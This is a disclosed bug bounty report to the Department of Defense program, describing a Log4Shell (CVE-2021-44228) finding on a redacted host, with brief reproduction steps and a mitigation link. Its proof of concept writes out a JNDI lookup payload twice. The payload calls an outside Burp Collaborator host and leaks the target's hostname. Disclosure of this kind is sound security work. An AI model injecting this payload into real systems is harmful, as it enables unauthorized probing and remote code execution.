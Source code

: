 # LOGJ4 VUlnerability [HtUS]

## Report Details
- **Report ID**: 1624137
- **URL**: https://hackerone.com/reports/1624137
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-07-04T14:01:23.594Z
- **Disclosed**: 2022-11-18T18:07:05.183Z

## Reporter
- **Username**: ferreiraklet_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Hi team,

log4 shell is recent 0-day exploit it's Java package vulnerable. █████ is vulnerable

**Impact**

RCE

**System Host(s)**

██████

**Affected Product(s) and Version(s)**

**CVE Numbers**

CVE-2021-44228

**Steps to Reproduce**

1. Go to this url => https://█████/?x=${jndi:ldap://${hostName}.uri.xxxxx.burpcollaborator.net/a}
2. paste the poc code on parameter
3. Then burp collaborator received reverse ping back
Photos below

**POC CODE**
${jndi:ldap://${hostName}.uri.xxxxx.burpcollaborator.net/a}

**Suggested Mitigation/Remediation Actions**
https://www.lunasec.io/docs/blog/log4j-zero-day/

## Impact

Successful attack leads Arbitary Code Execution on the application

## Attachments
No attachments
